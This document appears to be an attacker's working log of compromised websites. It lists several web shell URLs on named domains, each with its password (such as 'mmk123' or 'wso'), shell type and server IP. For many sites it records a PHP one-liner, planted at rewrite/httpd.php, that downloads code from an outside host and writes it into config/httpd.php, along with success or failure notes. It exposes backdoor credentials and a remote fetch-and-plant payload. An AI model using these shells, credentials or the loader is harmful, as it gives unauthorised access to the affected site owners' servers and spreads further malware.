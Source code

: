 http://www.jsyshj.com/static/upload/image/20230618/3m.php |mmk123 |  122.10.97.181
代码更新：0608  失败 无法加密
http://www.jsyshj.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.jsyshj.com/config/httpd.php?d=up

https://junconmachines.com/static/upload/video/20221128/13.php |mmk123 |rsa | 218.247.87.80
https://taiguii.com/static/upload/image/20230803/3m.php |mmk123 |  47.93.234.132 
https://www.rxb.ink/static/BaiDu/picture/3m.php |mmk123 

http://www.hnbzyc.com/uploads/allimg/191225/3m.php |mmk123 |  106.15.77.49
代码更新：0608 ✅
http://www.hnbzyc.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hnbzyc.com/config/httpd.php?d=up

http://xc.qxlcyjt.com/static/upload/other/20191220/3m.php |mmk123 |  47.97.25.132
代码更新：0608 ✅
http://xc.qxlcyjt.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://xc.qxlcyjt.com/config/httpd.php?d=up

https://www.yunfuzhuoxinda.com/static/upload/image/20230905/3m.php |mmk123 |  103.18.206.115
代码更新：0608 ✅
https://www.yunfuzhuoxinda.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.yunfuzhuoxinda.com/config/httpd.php?d=up

http://szaipets.com/static/upload/image/20231030/13.php |big |wso | 43.154.53.8
http://www.szaipets.com/static/upload/image/20240109/13.php |wso |wso | 43.154.53.8
http://x249.www.pusite.icu/static/upload/image/20231010/13.php |mmk123 |rsa | 120.55.79.114
http://www.demigodjewelry.com/dd.php |dd |大马 | 47.244.172.140

http://kelaiyiyx.com/static/upload/image/20231114/m22.php |mmk123 |  8.217.173.192
代码更新：0608 ✅
http://kelaiyiyx.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://kelaiyiyx.com/config/httpd.php?d=up

https://warlzy.com/static/upload/image/20230607/m22.php |mmk123 |  39.99.163.186 创建文件失败

http://k464.yuean.top/static/upload/image/20231013/m22.php |mmk123 |  154.221.17.137
代码更新：0608 失败  500
http://k464.yuean.top/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://k464.yuean.top/config/httpd.php?d=up
